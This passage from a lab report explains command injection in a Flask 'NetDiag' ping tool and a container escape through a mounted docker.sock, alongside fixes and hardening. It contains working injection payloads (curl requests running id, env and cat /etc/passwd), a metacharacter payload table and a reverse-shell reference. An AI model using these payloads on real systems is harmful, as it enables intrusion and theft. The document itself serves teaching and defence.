    \item The parent process reads the pipe via \texttt{.read()}, receives the combined output, and the Flask response includes the \texttt{id} output.
\end{enumerate}

The root cause is unambiguous: \textbf{unsanitized user input is used as the content of a shell command string argument}.

\begin{lstlisting}
# Confirm command injection with id
curl "http://192.168.98.4:5000/ping?host=8.8.8.8%3Bid"
# Response contains: uid=0(root) gid=0(root)

# Enumerate environment variables
curl "http://192.168.98.4:5000/ping?host=8.8.8.8%3Benv"

# Read /etc/passwd
curl "http://192.168.98.4:5000/ping?host=8.8.8.8%3Bcat+/etc/passwd"

# Confirm docker.sock presence
curl "http://192.168.98.4:5000/ping?host=8.8.8.8%3Bls+-la+/var/run/docker.sock"
\end{lstlisting}

\section{Why \texttt{os.popen()} is Dangerous}

\subsection{\texttt{os.popen()} Internals}

\texttt{os.popen(cmd)} is a thin Python wrapper around the C library \texttt{popen()} function. Internally it invokes \texttt{/bin/sh -c <cmd\_string>}, treating the entire argument as a shell script. The syscall chain is:

\begin{lstlisting}
pipe() -> fork() -> execve("/bin/sh", ["-c", cmd_string], environ)
\end{lstlisting}

The shell receives full interpretation authority over \texttt{cmd\_string}. Any metacharacters present --- regardless of whether they were intended by the developer --- are active. When user input is embedded in \texttt{cmd\_string} via string concatenation, the user effectively controls the content of a shell script.

\texttt{os.popen()} is deprecated in Python 3. The \texttt{subprocess} module is the documented replacement, but the choice between safe and unsafe use of \texttt{subprocess} requires understanding the distinction between string and list invocation.

\subsection{Safe Alternative: \texttt{subprocess.run()} with List Argument}

\begin{lstlisting}[language=Python]
import subprocess
result = subprocess.run(
    ['ping', '-c', '3', host],
    capture_output=True, text=True, timeout=10
)
\end{lstlisting}

When \texttt{subprocess.run()} receives a list, each element is treated as a discrete argument. No shell is invoked. The syscall chain becomes:

\begin{lstlisting}
fork() -> execve("/bin/ping", ["ping", "-c", "3", host], environ)
\end{lstlisting}

\texttt{/bin/ping} is called directly. There is no shell to interpret metacharacters. If \texttt{host} contains \texttt{8.8.8.8;id}, the string \texttt{8.8.8.8;id} is passed as a literal argument to \texttt{ping}, which rejects it as an invalid hostname. The injected command never executes.

\subsection{The \texttt{shell=True} Trap}

\begin{lstlisting}[language=Python]
# Still vulnerable -- identical to os.popen()
subprocess.run("ping -c 3 " + host, shell=True)
\end{lstlisting}

Passing \texttt{shell=True} to \texttt{subprocess.run()} re-introduces \texttt{/bin/sh -c} and restores the identical vulnerability. This is a common mistake: a developer switches from \texttt{os.popen()} to \texttt{subprocess} in response to a security finding, but retains \texttt{shell=True}, achieving nothing.

\subsection{Comparison}

\begin{center}
\begin{tabular}{|l|c|c|c|}
\hline
\textbf{Method} & \textbf{Shell Invoked} & \textbf{Metachar Interpreted} & \textbf{Vulnerable} \\
\hline
\texttt{os.popen(string)} & Yes (\texttt{/bin/sh -c}) & Yes & Yes \\
\texttt{subprocess.run(string, shell=True)} & Yes (\texttt{/bin/sh -c}) & Yes & Yes \\
\texttt{subprocess.run(list)} & No (direct execve) & No & No \\
\texttt{subprocess.run(list, shell=False)} & No & No & No \\
\hline
\end{tabular}
\end{center}

\subsection{Input Validation as Defense-in-Depth}

Input validation is not a substitute for safe API usage, but it is a recommended additional layer. An allowlist approach restricts \texttt{host} to characters valid in IP addresses and hostnames:

\begin{lstlisting}[language=Python]
import re
if not re.match(r'^[a-zA-Z0-9.\-]+$', host):
    return "Invalid host", 400
\end{lstlisting}

This rejects any input containing \texttt{;}, \texttt{\&}, \texttt{|}, backticks, \texttt{\$}, parentheses, or newlines. Even if a future developer inadvertently reintroduces a shell invocation, the validation layer limits the blast radius.

\subsection{Output Reflection Amplifies Impact}

Because \texttt{os.popen().read()} captures the full stdout of the shell session and \texttt{render\_template} includes it in the HTTP response body, this is a \textbf{non-blind injection}. The attacker reads the output of injected commands directly in the browser. No out-of-band channel, timing oracle, or side-channel technique is required for enumeration. Only stderr is not captured by default; adding \texttt{2>\&1} to any injected command resolves this.

\begin{lstlisting}[language=Python]
# Demonstrate safe vs unsafe in Python REPL inside container
python3 -c "
import os, subprocess

# Unsafe: semicolon is interpreted
print(os.popen('echo safe; id').read())

# Safe: semicolon passed as literal argument
r = subprocess.run(['echo', 'safe; id'], capture_output=True, text=True)
print(r.stdout)  # prints: safe; id -- no command executed
"
\end{lstlisting}

\section{The HTML Template: UI Breakdown}

NetDiag's front end is a single Jinja2 template, \texttt{index.html}, served by \texttt{render\_template}. The form submits via \texttt{GET} to \texttt{/ping}, placing the \texttt{host} value in the query string.

Command output is rendered in the template using Jinja2's standard variable substitution: \texttt{\{\{ result \}\}}. Jinja2 auto-escapes HTML special characters in \texttt{.html} templates by default, which prevents the command output from being interpreted as HTML or executing JavaScript. This mitigates cross-site scripting in the output --- but it does not prevent command injection. The HTML escaping occurs \emph{after} the shell has already executed. The damage is done before the template is rendered.

If a \texttt{<pre>} tag wraps the output block, whitespace and newlines in command output are preserved, making multi-line results such as \texttt{/etc/passwd} or \texttt{env} readable in the browser without further formatting.

The absence of authentication on the route means the form is accessible to any client with network reach to port 5000. The absence of a CSRF token is technically irrelevant for a GET request but is a clear signal that no security review was applied to this application.

The practical consequence of output reflection is significant: this vulnerability requires no blind exploitation technique. The attacker submits a request, reads the response, and proceeds with full situational awareness.

\section{Running as Root Inside the Container}

\subsection{The Missing \texttt{USER} Directive}

The NetDiag Dockerfile does not specify a \texttt{USER} directive:

\begin{lstlisting}
FROM python:3.11-slim
WORKDIR /app
COPY . .
RUN pip install flask
CMD ["python3", "app.py"]
# No: USER nobody
\end{lstlisting}

When no \texttt{USER} directive is present, Docker defaults to running the container's main process as UID 0. This UID is inherited by every child process: Flask inherits it, \texttt{os.popen()} inherits it, the shell inherits it, and every injected command inherits it.

\subsection{UID 0 Without User Namespace Remapping}

Docker does not enable user namespace remapping by default. Without this feature, UID 0 inside the container maps directly to UID 0 on the host kernel. This can be confirmed from inside the container:

\begin{lstlisting}
# Confirm root inside container
docker exec netdiag-app id
# uid=0(root) gid=0(root) groups=0(root)

# Confirm direct UID mapping -- no user namespace in effect
docker exec netdiag-app cat /proc/self/uid_map
# 0          0 4294967295

# Verify socket permissions relative to container UID
docker exec netdiag-app ls -la /var/run/docker.sock
# srw-rw---- 1 root 132 ... -- UID 0 passes owner check
\end{lstlisting}

The output \texttt{0 0 4294967295} from \texttt{uid\_map} indicates that UID 0 inside the container maps to UID 0 on the host, covering the full UID range. There is no remapping layer.

\subsection{Impact on the Attack Chain}

Running as UID 0 is the second critical factor in the complete exploitation path (alongside the mounted \texttt{docker.sock}, discussed in Chapter~8):

\begin{itemize}
    \item Injected commands via the \texttt{/ping} route execute as root.
    \item \texttt{/var/run/docker.sock} has permissions \texttt{srw-rw----}, owned by \texttt{root:docker}. UID 0 passes the owner permission check and can read and write the socket directly.
    \item Installing additional tooling with \texttt{apt-get install docker.io} requires root --- this succeeds inside the container.
    \item Files written to the host filesystem via a container escape are owned by root on the host.
    \item The reverse shell spawned via the injected command (see Chapter~8) inherits UID 0, arriving with root privileges.
\end{itemize}

\subsection{What Running as Non-Root Would Change}

A non-root UID cannot read or write \texttt{/var/run/docker.sock} unless that UID is a member of the \texttt{docker} group --- which grants equivalent access and should be treated as root-equivalent. Without socket access, the container escape path documented in Chapter~8 is blocked. \texttt{apt-get install} would fail, preventing installation of the Docker CLI. Remote code execution via command injection would still be possible, but the ability to pivot to a full container escape would be substantially constrained.

\subsection{Correct Dockerfile Fix}

\begin{lstlisting}
RUN useradd -m -u 1001 appuser
USER appuser
# /var/run/docker.sock becomes inaccessible to UID 1001
\end{lstlisting}

This change, combined with the \texttt{subprocess} fix and input validation discussed in Section~5.5, is addressed in detail in Chapter~11.
\chapter{The Dockerfile and Container Configuration}

This chapter documents the exact Dockerfile and \texttt{docker run} command used in the lab environment. Every decision -- the base image, the absence of a \texttt{USER} directive, the port binding, and the socket mount -- is intentional and carries a specific security consequence. This chapter bridges the application layer covered in Chapter 5 and the attack chain executed in Chapter 8.

\section{Dockerfile Walkthrough Line by Line}

The complete Dockerfile for the NetDiag application is:

\begin{lstlisting}[language=docker]
FROM python:3.11-slim
WORKDIR /app
COPY . .
RUN pip install flask
EXPOSE 5000
CMD ["python3", "app.py"]
\end{lstlisting}

Each instruction is analyzed below for its build-time and runtime security consequence.

\begin{figure}[h]
\centering
\vspace{3.5cm}
\caption{Dockerfile build stages mapped to image layers and runtime process state}
\end{figure}

\subsection*{\texttt{FROM python:3.11-slim}}

This instruction sets the base image. \texttt{python:3.11-slim} is an official Docker Hub image based on \texttt{debian:bookworm-slim} (Debian 12 minimal) with Python 3.11 pre-installed. The \texttt{slim} variant strips development headers and most documentation but retains \texttt{apt-get}, \texttt{bash}, and \texttt{sh}.

The critical security consequence of this line is one of omission: the base image defines no \texttt{USER} directive, so the default user inherited by every subsequent instruction and by the container's runtime process is \textbf{root (UID 0)}. Every layer built on top of this image inherits that default unless explicitly overridden.

The image is pulled from Docker Hub at build time without a digest pin. Without pinning, the image resolved by \texttt{python:3.11-slim} can change between builds, introducing supply chain risk.

\subsection*{\texttt{WORKDIR /app}}

Creates the \texttt{/app} directory and sets it as the current working directory for all subsequent \texttt{RUN}, \texttt{COPY}, \texttt{CMD}, and \texttt{ENTRYPOINT} instructions, as well as for the container's runtime process. Because no \texttt{USER} has been set, this directory is created and owned by \texttt{root:root}. There is no direct security implication from this line alone.

\subsection*{\texttt{COPY . .}}

Copies the entire build context -- the contents of the \texttt{host/} directory -- into \texttt{/app} inside the image. Copied files inherit ownership \texttt{root:root (UID 0:GID 0)}. This includes \texttt{app.py} and any other files present in the build context at build time.

The absence of a \texttt{.dockerignore} file means the build context is unrestricted. Any file present in \texttt{host/} -- including configuration files, \texttt{.env} files, private keys, or local credentials -- will be included in the image layer. This creates accidental secret inclusion risk that may not be immediately visible from inspecting the Dockerfile alone.

\subsection*{\texttt{RUN pip install flask}}

Executes during image build as \texttt{UID 0}. Installs Flask and its dependencies into the system Python installation rather than a virtualenv. This creates a new image layer containing the Flask packages. Because \texttt{pip} runs as root, packages are installed system-wide and accessible to any process running inside the container. The \texttt{--no-install-recommends} flag is absent, allowing \texttt{pip} and \texttt{apt} to pull in optional dependencies that expand the attack surface without contributing to application functionality.

\subsection*{\texttt{EXPOSE 5000}}

This instruction is documentation only. It writes metadata into the image manifest indicating the intended port but performs no kernel operation at build time or container start. It does not create a firewall rule, does not bind a socket, and does not publish the port to the host. Actual port binding requires the \texttt{-p} flag at \texttt{docker run} time, documented in Section~\ref{sec:dockerrun}. \texttt{EXPOSE} is used by \texttt{docker-compose}, \texttt{--publish-all}, and human operators as a signal of intent.

\subsection*{\texttt{CMD ["python3", "app.py"]}}

Defines the default command executed when the container starts. The exec form (JSON array) causes Docker to call \texttt{execve("python3", ["python3", "app.py"])} directly without a shell wrapper. The Python process becomes \textbf{container PID 1}.

There are two security-relevant consequences. First, since no \texttt{USER} directive appears anywhere in the file, this process runs as \textbf{UID 0}. The Flask application, \texttt{os.popen()} calls, injected shell commands, and any child processes all inherit this UID. Second, as PID 1, the process receives signals directly from the kernel. There is no init process to absorb or handle \texttt{SIGTERM} or zombie processes from child process reaping. This has operational rather than direct security implications but is relevant to container behavior analysis.

\subsection*{What Is Absent}

The following hardening measures are absent from the Dockerfile. Each omission has a consequence that is exercised during the attack:

\begin{itemize}
    \item \textbf{No \texttt{USER} directive}: all processes run as \texttt{UID 0} by default. This is the single most consequential omission.
    \item \textbf{No \texttt{.dockerignore}}: build context is unrestricted, risking accidental inclusion of secrets.
    \item \textbf{No \texttt{--no-install-recommends}}: unnecessary packages are installed, expanding the available toolset inside the container.
    \item \textbf{No multi-stage build}: build-time dependencies are present in the final runtime image.
    \item \textbf{No \texttt{HEALTHCHECK}}: no liveness monitoring for the running application.
    \item \textbf{No digest pin on base image}: the resolved image can change between builds.
\end{itemize}

\vspace{0.3cm}

\section{Base Image Choice}

\texttt{python:3.11-slim} is an official image maintained by the Python Docker community. It is based on \texttt{debian:bookworm-slim} and includes the Python 3.11 interpreter, \texttt{pip}, the standard library, and Debian base utilities. The \texttt{slim} label indicates that compiler toolchains, development headers, and documentation have been stripped relative to the full \texttt{python:3.11} image.

\subsection*{Security-Relevant Contents}

The \texttt{slim} label is frequently misread as equivalent to \texttt{minimal} or \texttt{secure}. Several components retained in the image are directly exploited in this attack:

\begin{itemize}
    \item \texttt{/bin/bash} and \texttt{/bin/sh} are present. This enables the bash TCP redirect reverse shell (\texttt{bash -i >\& /dev/tcp/...}) used in Step 2 of the attack chain.
    \item \texttt{apt-get} is functional. This allows the attacker to install \texttt{docker.io} inside the container in Step 5 of the attack chain.
    \item \texttt{python3} is present as an alternative shell primitive via \texttt{python3 -c 'import pty; pty.spawn("/bin/bash")'}, used for shell stabilization.
    \item \texttt{curl} and \texttt{wget} are absent by default but are trivially installable via \texttt{apt-get}.
\end{itemize}

\subsection*{Image Size vs Attack Surface}

The approximate image sizes for comparable Python base images are:

\begin{itemize}
    \item \texttt{python:3.11} (full): approximately 1~GB -- includes compilers, headers, manpages
    \item \texttt{python:3.11-slim}: approximately 150~MB -- stripped but shell and package manager intact
    \item \texttt{python:3.11-alpine}: approximately 50~MB -- \texttt{musl} libc, BusyBox \texttt{ash}, no \texttt{bash}
    \item \texttt{gcr.io/distroless/python3}: no shell, no package manager, no \texttt{apt-get}
\end{itemize}

Alpine would make the reverse shell harder to execute (no \texttt{bash}, so the TCP redirect must be rewritten for \texttt{ash} or a compiled binary). Distroless would block both the reverse shell and the \texttt{apt-get install docker.io} step, forcing the attacker to use only the raw HTTP API via the socket. Neither alternative removes the vulnerability -- command injection and docker socket abuse would both remain exploitable through adjusted techniques.

\subsection*{Supply Chain Consideration}

The instruction \texttt{FROM python:3.11-slim} without a digest pin means the image tag is mutable. The image resolved at build time may differ from the image resolved at a later rebuild. To produce a reproducible and auditable image, the base should be pinned by digest:

\begin{lstlisting}[language=docker]
FROM python:3.11-slim@sha256:<digest>
\end{lstlisting}

\begin{lstlisting}[language=bash]
# Inspect base image available tools
docker run --rm python:3.11-slim bash -c \
  "which bash sh curl wget apt-get python3"

# Inspect image layers
docker history python:3.11-slim
\end{lstlisting}

\vspace{0.3cm}

\section{Running as Root -- Why This Matters}

The absence of any \texttt{USER} directive in the Dockerfile means every process inside the running container executes as \texttt{UID 0, GID 0}. This applies to the Flask process itself, the \texttt{os.popen()} subprocess, the injected shell commands, the reverse shell, and every child process spawned thereafter.

\subsection*{UID 0 Without User Namespace Remapping}

In the default Docker configuration, user namespace remapping is disabled. This means the UID-to-UID mapping is a direct identity map:

\begin{lstlisting}[language=bash]
# Inside the container
cat /proc/self/uid_map
# 0          0 4294967295
\end{lstlisting}

This output means UID 0 inside the container maps directly to UID 0 on the host kernel. There is no intermediate translation layer. Files written from inside the container appear as \texttt{root}-owned on the host filesystem. This is the default behavior and is what this lab demonstrates. Rootless Docker or \texttt{--userns-remap} would interpose a mapping, making UID 0 inside the container correspond to an unprivileged UID on the host.

\subsection*{Attack Steps That Require Root}

Table~\ref{tab:root_dependency} documents which steps in the attack chain are directly enabled by \texttt{UID 0}.

\begin{table}[h]
\centering
\caption{Attack steps enabled by root execution context}
\label{tab:root_dependency}
\begin{tabular}{|l|l|}
\hline
\textbf{Attack Step} & \textbf{Why Root Is Required} \\
\hline
Read \texttt{/var/run/docker.sock} & Socket owner: \texttt{root:docker}, permissions \texttt{660} -- UID 0 passes \\
\texttt{apt-get install docker.io} & Package installation requires root privileges \\
\texttt{docker} CLI execution & Needs socket read/write -- granted to UID 0 \\
Write \texttt{/tmp/escaped.txt} on host & File created as UID 0 -- root-owned on actual host \\
\hline
\end{tabular}
\end{table}

\subsection*{Effective Capability Set}

A root process inside a default Docker container does not hold the full capability set of a root process on the host. Docker drops several capabilities by default. However, the retained set is sufficient for this attack. Relevant retained capabilities include:

\begin{itemize}
    \item \texttt{CAP\_CHOWN}: change file ownership
    \item \texttt{CAP\_DAC\_OVERRIDE}: bypass file read, write, and execute permission checks regardless of file ownership
    \item \texttt{CAP\_FOWNER}: bypass permission checks on operations that normally require matching file UID
    \item \texttt{CAP\_SETUID} and \texttt{CAP\_SETGID}: change process UID/GID
\end{itemize}

\texttt{CAP\_DAC\_OVERRIDE} is particularly significant: it allows the root container process to read and write most files regardless of their ownership, which is what makes \texttt{docker.sock} accessible and what makes host filesystem writes succeed after the escape.

The effective capability set can be inspected and decoded:

\begin{lstlisting}[language=bash]
# Confirm UID inside container
docker exec netdiag-app id
# uid=0(root) gid=0(root)

# Confirm no UID remapping
docker exec netdiag-app cat /proc/self/uid_map
# 0          0 4294967295

# Read effective capabilities
docker exec netdiag-app cat /proc/self/status | grep CapEff

# Decode the hex bitmask
capsh --decode=$(docker exec netdiag-app \
  cat /proc/self/status | grep CapEff | awk '{print $2}')
\end{lstlisting}

\subsection*{Non-Root as Partial Mitigation}

Running the application as an unprivileged user (e.g., \texttt{UID 1001}) would block several steps in the attack chain. A non-root process cannot read \texttt{docker.sock} (owner \texttt{root}, group \texttt{docker}, permissions \texttt{660}) without group membership, cannot run \texttt{apt-get}, and cannot write to root-owned paths. However, this is a partial mitigation only. The command injection vulnerability in \texttt{app.py} exists independently of the process UID. An attacker would still achieve RCE -- they would simply be constrained to the privileges of the unprivileged user rather than root.

\vspace{0.3cm}

\section{Port Exposure}
\label{sec:portexposure}

\subsection*{\texttt{EXPOSE 5000} vs \texttt{-p 5000:5000}}

Port exposure in Docker operates at two distinct levels that are frequently conflated.

\texttt{EXPOSE 5000} in the Dockerfile is metadata. It records the intended port in the image manifest and is used by \texttt{docker-compose}, the \texttt{--publish-all} (\texttt{-P}) flag, and human operators as a convention signal. It performs no kernel operation at build time or container start, creates no firewall rule, and binds no socket. A container started without \texttt{-p} or \texttt{-P} has no port reachable from outside despite any \texttt{EXPOSE} declarations.

\texttt{-p 5000:5000} in the \texttt{docker run} command is what actually exposes the service. When this flag is specified, the Docker daemon creates a set of iptables rules on the host:

\begin{itemize}
    \item \textbf{PREROUTING chain (DNAT)}: rewrites destination of packets arriving at \texttt{0.0.0.0:5000} to the container's IP (\texttt{172.17.0.X:5000})
    \item \textbf{FORWARD chain}: permits forwarded traffic destined for the container subnet
    \item \textbf{POSTROUTING chain}: MASQUERADE rule for container-to-external traffic
\end{itemize}

The host kernel does not bind a socket directly on port 5000. All traffic to that port is intercepted at the netfilter layer and redirected. Flask binds \texttt{0.0.0.0:5000} inside the container's network namespace and receives the redirected traffic.

\subsection*{Security Implication}

The default \texttt{-p 5000:5000} binds on \texttt{0.0.0.0}, making the service reachable from all host network interfaces. This includes the NAT network interface shared between VM1 and VM2, which is how the attacker at \texttt{192.168.98.5} reaches the Flask application. A binding restricted to localhost (\texttt{-p 127.0.0.1:5000:5000}) would limit access to processes on the host itself, though this is not applicable in a demonstration scenario that requires external access.

\begin{lstlisting}[language=bash]
# Verify iptables DNAT rule created by Docker
iptables -t nat -L -n -v | grep -E "5000|172.17"

# Confirm Flask binding inside container
docker exec netdiag-app ss -tlnp
# LISTEN  0  *:5000  -- Flask bound on all interfaces
\end{lstlisting}

\vspace{0.3cm}

\section{The Intentional Misconfiguration in \texttt{docker run}}
\label{sec:dockerrun}

The complete \texttt{docker run} command from \texttt{setup.sh} is:

\begin{lstlisting}[language=bash]
docker run -d \
    -p 5000:5000 \
    -v /var/run/docker.sock:/var/run/docker.sock \
    --name netdiag-app \
    netdiag
\end{lstlisting}

\begin{figure}[h]
\centering
\vspace{3.5cm}
\caption{\texttt{docker run} flag map -- kernel operation and security consequence of each flag}
\end{figure}

\subsection*{Flag-by-Flag Analysis}

\textbf{\texttt{-d} (detached mode).} The container runs in the background. Its stdout is not attached to the invoking terminal and it persists until explicitly stopped. No direct security implication.

\textbf{\texttt{-p 5000:5000}.} Publishes the container's port 5000 to the host's port 5000. Creates iptables DNAT rules as described in Section~\ref{sec:portexposure}. This is the network entry point through which the attacker reaches the vulnerable Flask application.

\textbf{\texttt{-v /var/run/docker.sock:/var/run/docker.sock} -- the critical flag.} This bind-mounts the host's Docker Unix domain socket into the container at the identical path. At the kernel level, the mount namespace of the container is modified so that the inode at \texttt{/var/run/docker.sock} inside the container is the same inode as \texttt{/var/run/docker.sock} on the host. It is not a copy, not a proxy, and not a restricted interface -- it is the live socket connected directly to the host Docker daemon.

The socket retains its host permissions (\texttt{srw-rw---- root:docker}). The container process runs as \texttt{UID 0}, which passes the permission check without requiring \texttt{docker} group membership. No namespace boundary, seccomp rule, or AppArmor profile blocks socket access by default. From the moment the container starts, the root process inside it has full, unauthenticated administrative access to the host Docker daemon API.

This single flag is the complete enabler of the container escape. Every step from Section 8.5 onward in the attack chain depends on it and on nothing else. The command injection vulnerability provides the execution channel; the socket mount provides the escape path. Neither requires a kernel exploit.

\textbf{\texttt{--name netdiag-app}.} Assigns a human-readable name to the container for management purposes. Enables \texttt{docker inspect netdiag-app} in \texttt{detect.sh}. No security implication.

\textbf{\texttt{netdiag} (image name).} References the locally built image. No registry pull occurs.

\subsection*{Hardening Options Not Used}

Table~\ref{tab:missing_flags} lists the \texttt{docker run} flags that would have partially or fully mitigated the escape, and what each would have done.

\begin{table}[h]
\centering
\caption{Hardening flags absent from the \texttt{docker run} command}
\label{tab:missing_flags}
\begin{tabular}{|l|l|}
\hline
\textbf{Missing Flag} & \textbf{Effect If Present} \\
\hline
\texttt{--user 1001} & Run as non-root -- socket becomes unreadable, \texttt{apt-get} fails \\
\texttt{--read-only} & Read-only root filesystem -- limits attacker persistence \\
\texttt{--cap-drop=ALL} & Drop all Linux capabilities \\
\texttt{--security-opt no-new-privileges} & Prevent privilege escalation via SUID binaries \\
\texttt{--network} (scoped) & Restrict container network access \\
Remove \texttt{-v docker.sock} & Eliminate the escape vector entirely \\
\hline
\end{tabular}
\end{table}

\subsection*{Why This Misconfiguration Is Realistic}

The \texttt{-v /var/run/docker.sock:/var/run/docker.sock} pattern appears verbatim in the official setup documentation for Jenkins, Portainer, Watchtower, and numerous other container management tools. It is present in countless Stack Overflow answers, tutorials, and quick-start scripts. Operators commonly copy this flag without understanding that it grants root-equivalent access to the host. The configuration prioritises functional simplicity -- the container can manage other containers -- over the security boundary that containerization is assumed to provide.

\subsection*{The Two-Vulnerability Combination}

The attack requires both vulnerabilities to achieve full host compromise from a single HTTP request. Each vulnerability is serious independently:

\begin{itemize}
    \item \textbf{Vulnerability 1 -- Command injection in \texttt{app.py}}: unauthenticated RCE as root inside the container. CVSS v3 base score 9.8 Critical.
    \item \textbf{Vulnerability 2 -- \texttt{docker.sock} bind mount}: any root process inside the container can instruct the host daemon to mount the host filesystem and execute arbitrary commands on it.
\end{itemize}

Together, they form a deterministic, single-request path from the public network to full host compromise. Neither requires a CVE. Neither requires a kernel exploit. Both are fixed by configuration changes alone: removing \texttt{os.popen()} unsanitized input, and removing the \texttt{-v docker.sock} flag.

\vspace{0.5cm}
\chapter{Remote Code Execution (RCE)}

\section{What is RCE}

Remote Code Execution (RCE) refers to a class of vulnerability in which an attacker causes a target system to execute attacker-controlled commands without requiring authenticated access or physical presence. It is considered the highest-impact category of web vulnerability because it grants the attacker the same operational capabilities as the process running the target application.

In this project, RCE is achieved through OS command injection in the NetDiag Flask application. The injected commands are executed by the Flask process itself, which runs as \texttt{UID 0} (root) inside a Docker container that has \texttt{/var/run/docker.sock} bind-mounted from the host. This combination elevates a single unauthenticated HTTP GET request into a full host compromise path.

Two subtypes of RCE are commonly distinguished. Code injection exploits runtime evaluation constructs such as \texttt{eval()} to execute attacker-supplied code within the application's interpreter. OS command execution, which is the subtype relevant here, passes attacker-controlled input into a shell execution function, causing the operating system shell to run arbitrary commands. The distinction matters because the privileges obtained differ: code injection executes within the interpreter's sandbox, while OS command execution inherits the full process environment, UID, and filesystem access of the application.

The severity ceiling of an RCE vulnerability depends entirely on the execution context. Here, the process context is \texttt{UID 0} inside a container with \texttt{docker.sock} accessible, making full host compromise possible. Per the CVSS v3 scoring framework, an unauthenticated RCE with no required interaction and high impact across confidentiality, integrity, and availability receives a base score of \textbf{9.8 (Critical)}.

\vspace{0.3cm}

\section{Command Injection as a Class of Vulnerability}

Command injection is formally catalogued as \textbf{CWE-78: Improper Neutralization of Special Elements used in an OS Command}. It appears in the OWASP Top 10 under \textbf{A03:2021 -- Injection}, a category that encompasses all cases where untrusted data is sent to an interpreter as part of a command or query.

Three necessary conditions must be simultaneously present for OS command injection to be exploitable. All three are present in NetDiag.

\begin{itemize}
    \item \textbf{User-controlled input reaches a shell execution function.} The \texttt{host} query parameter is read directly from the HTTP request and passed without any intermediate processing to \texttt{os.popen()}.
    \item \textbf{No sanitization or validation is applied.} The application performs no allowlist checking, regex filtering, type coercion, or escaping on the input value before use.
    \item \textbf{The function invokes a shell interpreter.} \texttt{os.popen()} passes its argument to \texttt{/bin/sh -c <string>}, meaning the full shell metacharacter set is available to an attacker.
\end{itemize}

Command injection is distinct from adjacent injection classes. SQL injection targets a database query parser and is constrained by SQL grammar. Code injection exploits \texttt{eval()}-style constructs and is bounded by the interpreter's capabilities. Server-Side Request Forgery (SSRF) controls a URL and targets network-reachable services. Path traversal manipulates filesystem paths. OS command injection uniquely grants direct shell access with the privileges of the target process.

Two operational variants exist. In \textbf{blind injection}, the attacker cannot observe command output directly and must infer execution via timing side-channels or out-of-band DNS/HTTP callbacks. In \textbf{non-blind injection}, command output is reflected back in the HTTP response, as is the case in NetDiag. Non-blind injection dramatically accelerates exploitation because every curl request returns immediate, full output with no auxiliary infrastructure required.

Python sink functions that introduce command injection risk include: \texttt{os.popen()}, \texttt{os.system()}, \texttt{subprocess.run(shell=True)}, and \texttt{subprocess.Popen(shell=True)}. All four pass the argument string to \texttt{/bin/sh -c} when the shell interface is used, making them equivalent from an attacker's perspective.

\vspace{0.3cm}

\section{The Injection Point in NetDiag}

The vulnerable code in \texttt{app.py} is:

\begin{lstlisting}[language=Python]
host = request.args.get('host', '')
result = os.popen("ping -c 3 " + host).read()
\end{lstlisting}

The data flow from HTTP request to shell execution proceeds as follows:

\begin{lstlisting}
GET /ping?host=<INPUT>
  -> request.args.get('host')      # raw string, zero sanitization
  -> "ping -c 3 " + host           # string concat, attacker controls tail
  -> os.popen(<string>)            # passed to /bin/sh -c
  -> shell interprets metacharacters
\end{lstlisting}

Flask uses the Werkzeug WSGI library for request parsing. Werkzeug performs URL-decoding before the value reaches the view function, meaning percent-encoded metacharacters are transparently decoded: \texttt{\%3B} becomes \texttt{;}, \texttt{\%26} becomes \texttt{\&}, and \texttt{\%7C} becomes \texttt{|}. An attacker can therefore submit shell metacharacters either as literal characters or as their percent-encoded equivalents and both will reach the shell unchanged.

Because the input is appended by string concatenation to a fixed prefix, the attacker controls everything after \texttt{ping -c 3 }. Injected commands execute within the Flask process environment, inheriting its current working directory, all open file descriptors, environment variables, and critically, \texttt{UID 0}. No privilege escalation step is necessary because the application already runs as root.

\vspace{0.3cm}

\section{Shell Metacharacters -- How \texttt{;} Breaks the Command}

When \texttt{os.popen()} is called with the string \texttt{ping -c 3 8.8.8.8;id}, the entire string is passed to \texttt{/bin/sh} as the argument to its \texttt{-c} flag. The shell must parse this string and determine the command structure before executing anything.

The semicolon (\texttt{;}) is a POSIX-defined command separator. The shell splits the input at each \texttt{;} and executes the resulting commands sequentially, regardless of whether the preceding command succeeded or failed. The injection \texttt{8.8.8.8;id} therefore produces two commands:

\begin{itemize}
    \item \texttt{ping -c 3 8.8.8.8} -- executes normally, producing ping output
    \item \texttt{id} -- executes unconditionally after ping completes, appending its output to the pipe
\end{itemize}

The full set of shell metacharacters available to an attacker is documented in Table~\ref{tab:metacharacters}.

\begin{table}[h]
\centering
\caption{Shell Metacharacter Reference for Command Injection}
\label{tab:metacharacters}
\begin{tabular}{|l|l|l|l|}
\hline
\textbf{Character} & \textbf{Behavior} & \textbf{Payload Example} & \textbf{Condition} \\
\hline
\texttt{;} & Sequential separator & \texttt{8.8.8.8;id} & Unconditional \\
\texttt{\&\&} & Logical AND & \texttt{8.8.8.8\&\&id} & Ping must succeed \\
\texttt{||} & Logical OR & \texttt{INVALID||id} & Ping must fail \\
\texttt{|} & Pipe & \texttt{8.8.8.8|wc} & Chains output \\
\texttt{\textbackslash n} / \texttt{\%0A} & Newline separator & \texttt{8.8.8.8\%0Aid} & Same as \texttt{;} \\
\texttt{\$()} & Command substitution & \texttt{\$(id)} & Nested execution \\
\texttt{\&} & Background execution & \texttt{8.8.8.8\&id} & Concurrent \\
\hline
\end{tabular}
\end{table}

The semicolon is preferred in this attack for three reasons. First, it is unconditional -- the injected command runs regardless of whether \texttt{ping} succeeds. Second, it requires no quoting and introduces no ambiguity in the shell's parse. Third, its percent-encoded form \texttt{\%3B} is always decoded correctly by Werkzeug.

It is worth noting that quoting the Python string concatenation would not prevent injection. Even if the developer wrote \texttt{"ping -c 3 '" + host + "'"}, an attacker could close the quote with a matching single-quote character in the payload and then inject freely. The only effective fix is to avoid shell interpretation entirely.

\vspace{0.3cm}

\section{Confirming Execution via \texttt{id}}

The canonical first payload in OS command injection exploitation is the \texttt{id} command. It prints the UID, GID, and group memberships of the current process, takes no arguments, produces no side effects, and is present on every POSIX-compliant system.

The confirmation request is:

\begin{lstlisting}
GET /ping?host=8.8.8.8%3Bid
\end{lstlisting}

A successful response body contains the ping output followed by:

\begin{lstlisting}
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}

This output confirms three facts simultaneously: commands execute on the target OS and are not being sanitized or sandboxed; the process is running as \texttt{UID 0} (root); and full system access including package installation, socket operations, and filesystem writes is available without any further privilege escalation.

The \texttt{attack.sh} automation script encodes this check as a precondition gate:

\begin{lstlisting}[language=bash]
RESPONSE=$(curl -s "${TARGET}/ping?host=8.8.8.8%3Bid")
echo "$RESPONSE" | grep -q "uid=0" && echo "RCE confirmed"
\end{lstlisting}

